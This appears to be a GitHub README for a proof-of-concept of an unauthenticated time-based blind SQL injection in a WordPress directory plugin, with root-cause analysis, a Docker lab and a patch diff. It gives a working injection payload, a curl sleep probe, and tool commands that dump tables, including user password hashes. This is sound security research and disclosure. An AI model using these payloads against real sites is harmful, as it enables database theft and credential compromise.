


# CVE-2026-2576 — Business Directory Plugin SQLi PoC

**Unauthenticated Time-Based Blind SQL Injection**  
Business Directory Plugin for WordPress ≤ 6.4.21

---

## Table of Contents

- [Vulnerability Overview](#vulnerability-overview)
- [Technical Analysis](#technical-analysis)
- [Lab Requirements](#lab-requirements)
- [Lab Setup](#lab-setup)
- [Running the PoC](#running-the-poc)
- [Expected Output](#expected-output)
- [Patch Analysis](#patch-analysis)
- [References](#references)
- [Disclaimer](#disclaimer)

---

## Vulnerability Overview

| Field            | Detail                                                      |
|------------------|-------------------------------------------------------------|
| **CVE**          | CVE-2026-2576                                               |
| **Plugin**       | Business Directory Plugin – Easy Listing Directories for WordPress |
| **Vendor**       | strategy11team                                              |
| **Affected**     | All versions ≤ 6.4.21                                       |
| **Patched**      | 6.4.22                                                      |
| **Type**         | Time-Based Blind SQL Injection (CWE-89)                     |
| **Auth**         | None — fully unauthenticated                                |
| **CVSS**         | 7.5 (NVD) / 9.3 (Wordfence)                                |
| **Vector**       | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`            |
| **Assigner**     | Wordfence (CNA) — `d8ec7d25-1574-416c-b5fd-3a71b1cc09d2`   |
| **Disclosed**    | February 18, 2026                                           |

The Business Directory Plugin is a widely used WordPress plugin for building
listing directories with payment support. A flaw in its ORM query builder
allows an unauthenticated attacker to perform time-based blind SQL injection via the `payment` query parameter, 
enabling inference of database contents.

---

## Technical Analysis

### Root Cause

The vulnerability lives in the ORM query builder:

**File:** `includes/db/class-db-query-set.php` — `filter_args()`

```php
private function filter_args( $args ) {
    $filters = array();

    foreach ( $args as $f => $v ) {
        $op = '=';
        // ...

        if ( is_array( $v ) ) {
            // ❌ VULNERABLE — no sanitisation, direct string concatenation
            $filters[] = "$f IN ('" . implode( "','", $v ) . "')";
        } else {
            // ✓ Safe — uses $wpdb->prepare()
            $filters[] = $this->db->prepare( "$f $op %s", $v );
        }
    }

    return $filters;
}
```

When `$v` is a **scalar**, the code correctly uses `$wpdb->prepare()`. When
`$v` is an **array**, it falls into the unsafe branch and concatenates values
directly into the SQL string with no escaping.

### Trigger

The checkout controller (`includes/controllers/pages/class-checkout.php`)
reads the `payment` request parameter and passes it to the ORM:

```php
// class-checkout.php :: fetch_payment()
$payment_id = wpbdp_get_var( array( 'param' => 'payment' ), 'request' );
if ( ! $this->payment_id && ! empty( $payment_id ) ) {
    $this->payment = WPBDP_Payment::objects()->get(
        array( 'payment_key' => $payment_id )  // $payment_id passed as value
    );
}
```

PHP automatically converts `payment[]=value` in the query string into an
array `$_GET['payment'] = ['value']`. This forces `$v` to be an array in
`filter_args()`, hitting the unsafe branch.

### Injection Flow

```
GET /?page_id=4&wpbdp_view=checkout&payment[]=<payload>

  PHP: $_REQUEST['payment'] = ['<payload>']   ← array due to [] notation
                    |
                    v
  class-checkout.php: fetch_payment()
                    |
                    v
  WPBDP_Payment::objects()->get(['payment_key' => ['<payload>']])
                    |
                    v
  class-db-query-set.php: filter_args()
      => is_array($v) == TRUE → unsafe branch
      => "$f IN ('" . implode("','", $v) . "')"
                    |
                    v
  MySQL: SELECT * FROM wp_wpbdp_payments
         WHERE payment_key IN ('<payload>')
```

### Injection Payload

```
payment[]=<key>') AND IF((<condition>),SLEEP(N),0)-- -
```

Generated SQL:
```sql
SELECT * FROM wp_wpbdp_payments
WHERE payment_key IN ('<key>') AND IF((<condition>),SLEEP(N),0)-- -')
```

The `-- -` comments out the trailing `')`. The `IF()` creates a boolean
oracle, when the condition is TRUE, `SLEEP(N)` fires and the response is
delayed; when FALSE the response is immediate.

**Note:** The ORM executes the query twice per request (once in `get()`, once
in `maybe_execute_query()`), so a `SLEEP(1)` payload produces ~2 seconds of
observable delay, and `SLEEP(2)` produces ~4 seconds.

### Impact

An unauthenticated attacker can infer and extract database contents character by character through time-based responses, including:

- WordPress user table (`wp_users`), usernames, email addresses, password hashes
- Plugin payment records, transaction data, listing owner details
- Any other table accessible by the DB user

### Patch

The fix in version 6.4.22 adds sanitisation to the array branch of
`filter_args()`:

```php
// BEFORE (vulnerable)
$filters[] = "$f IN ('" . implode( "','", $v ) . "')";

// AFTER (patched)
$escaped   = array_map( array( $this->db, 'esc_sql' ), $v );
$filters[] = "$f IN ('" . implode( "','", $escaped ) . "')";
```

---

## Lab Requirements

- Docker + Docker Compose (v2)
- Python 3.9+
- Kali Linux or any Linux host
- Internet access (to pull Docker images and download the plugin)

Install Python dependencies:

```bash
pip3 install requests colorama --break-system-packages
```

---

## Lab Setup

### Step 1: Clone or create the lab directory

```
cve-2026-2576-lab/
┣ 📂poc
┃ ┣ 📜patch_diff.py
┃ ┗ 📜poc.py
┣ 📜.gitignore
┣ 📜docker-compose.yml
┣ 📜init-db.sql
┣ 📜README.md
┣ 📜setup.sh
┗ 📜uploads.ini
```

### Step 2: Start the full stack

```bash
cd cve-2026-2576-lab
docker compose up -d --build
```

### Step 3: Run the installer and wait for completion

```bash
docker compose up setup
```

Wait until you see:

```
╔══════════════════════════════════════════════════════════╗
║           Lab Setup Complete!                            ║
╠══════════════════════════════════════════════════════════╣
║  WordPress:   http://localhost:8080                      ║
║  WP Admin:    http://localhost:8080/wp-admin             ║
║  phpMyAdmin:  http://localhost:8082                      ║
╠══════════════════════════════════════════════════════════╣
║  admin / admin123                                        ║
║  victim / victimpass123                                  ║
╠══════════════════════════════════════════════════════════╣
║  Plugin: 6.4.21 (VULNERABLE)                             ║
║  BD Page ID: 4                                           ║
╚══════════════════════════════════════════════════════════╝
```

### Step 4: Confirm the vulnerable plugin version

```bash
docker exec lab_wordpress bash -c \
  "grep 'Version:' /var/www/html/wp-content/plugins/business-directory-plugin/business-directory-plugin.php \
  | head -1"
# Expected: * Version: 6.4.21
```

### Step 5: Get the real payment_key from the database

```bash
docker exec lab_mysql mysql -uwpuser -pwppass wordpress -e "SELECT id, payment_key, status FROM wp_wpbdp_payments;"
```

```
+----+--------------+---------+
| id | payment_key  | status  |
+----+--------------+---------+
|  1 | seed-pay-001 | pending |
+----+--------------+---------+
```

### Step 6: Start phpMyAdmin (optional, for DB inspection)

```bash
docker compose up -d pma
# Access at http://localhost:8082  (root / rootpass)
```

---

## Running the PoC

All commands run from the lab root directory on your Kali host.
Use `http://localhost:8080` (host → Docker port mapping).
The `payment_key` must correspond to an existing row in `wp_wpbdp_payments`.

### Detect: confirm the injection exists

```bash
python3 poc/poc.py --target http://localhost:8080 --page-id 4 --payment-key seed-pay-001 --detect
```

Expected: `INJECTION CONFIRMED ✓  (2.03s ≈ 1s × 2 ORM executions)`



### Extract: database name, version, user

```bash
python3 poc/poc.py --target http://localhost:8080 --page-id 4 --payment-key seed-pay-001 --extract-db
```


### List: all tables in the database

```bash
python3 poc/poc.py --target http://localhost:8080 --page-id 4 --payment-key seed-pay-001 --tables
```

### Dump: WordPress user table (password hashes)

```bash
python3 poc/poc.py --target http://localhost:8080 --page-id 4 --payment-key seed-pay-001 --dump-table wp_users
```

### Dump: custom table (seeded secrets)

```bash
python3 poc/poc.py --target http://localhost:8080 --page-id 4 --payment-key seed-pay-001 --dump-table lab_secrets
```

### Custom SQL Expression Extraction

```bash
python3 poc/poc.py --target http://localhost:8080 --page-id 4  --payment-key seed-pay-001 --custom-sql "SELECT secret_value FROM lab_secrets WHERE label='flag'"  
```

### Speed tuning

| Flag | Default | Notes |
|------|---------|-------|
| `--sleep N` | 1 | SLEEP(N) per oracle. TRUE ≈ N×2s. Lower = faster, noisier |
| `--threads N` | 4 | Parallel character positions. 8 works well on modern hardware |

```bash
# Fastest extraction
python3 poc/poc.py --target http://localhost:8080 --page-id 4 --payment-key seed-pay-001 --dump-table wp_users --sleep 1 --threads 8
```

### Manual curl verification

```bash
# Baseline: should return in < 0.1s
time curl -s -o /dev/null "http://localhost:8080/?page_id=4&wpbdp_view=checkout&payment[]=seed-pay-001"

# Sleep probe: should return in ~4s (SLEEP(2) × 2 executions)
time curl -s -o /dev/null "http://localhost:8080/?page_id=4&wpbdp_view=checkout&payment[]=$(python3 -c "import urllib.parse; print(urllib.parse.quote(\"seed-pay-001') AND SLEEP(2)-- -\"))")" 

```

---

## Patch Analysis

To diff the vulnerable version against the patched version:

```bash
python3 poc/patch_diff.py 

# For Full Diff
python3 poc/patch_diff.py --full
```

- Or Manual Download
```bash
# Download both versions
svn export https://plugins.svn.wordpress.org/business-directory-plugin/tags/6.4.21/ /tmp/v6421
svn export https://plugins.svn.wordpress.org/business-directory-plugin/tags/6.4.22/ /tmp/v6422

# Diff the vulnerable file
diff -u /tmp/v6421/includes/db/class-db-query-set.php /tmp/v6422/includes/db/class-db-query-set.php
```

The diff will show `esc_sql()` added to the array branch in `filter_args()`.

---

## Lab Management

```bash
# Stop lab (preserves data)
docker compose stop

# Restart
docker compose start

# Full teardown — destroys all volumes and data
docker compose down -v

# Rerun setup from scratch
docker compose down -v && docker compose up setup

# Shell into WordPress container
docker exec -it lab_wordpress bash

# View WordPress PHP error log
docker exec lab_wordpress tail -f /var/www/html/wp-content/debug.log

# Watch MySQL query log in real time
docker exec lab_mysql mysql -uroot -prootpass -e "SET GLOBAL general_log=1; SET GLOBAL general_log_file='/tmp/mysql.log';"

docker exec lab_mysql tail -f /tmp/mysql.log
```

---

## References

- **Wordfence Advisory** — https://www.wordfence.com/threat-intel/vulnerabilities/id/d8ec7d25-1574-416c-b5fd-3a71b1cc09d2
- **NVD Entry** — https://nvd.nist.gov/vuln/detail/CVE-2026-2576
- **WordPress Plugin Page** — https://wordpress.org/plugins/business-directory-plugin/
- **WordPress Plugin SVN** — https://plugins.svn.wordpress.org/business-directory-plugin/
- **OWASP: SQL Injection** — https://owasp.org/www-community/attacks/SQL_Injection
- **CWE-89** — https://cwe.mitre.org/data/definitions/89.html
- **WordPress `$wpdb->prepare()` docs** — https://developer.wordpress.org/reference/classes/wpdb/prepare/

---

## Disclaimer

This repository is intended for **authorised security research and educational
purposes only**. All testing was conducted against an isolated local lab
environment. Never run this tool against systems you do not own or have
explicit written permission to test. Unauthorised access to computer systems
is illegal under the Computer Fraud and Abuse Act (CFAA) and equivalent laws
in other jurisdictions.

The author assumes no liability for misuse of this material. Always follow
responsible disclosure practices — if you discover new findings building on
this research, coordinate with the vendor before publishing.

---

*Researched and developed in an isolated Docker lab on Kali Linux.*
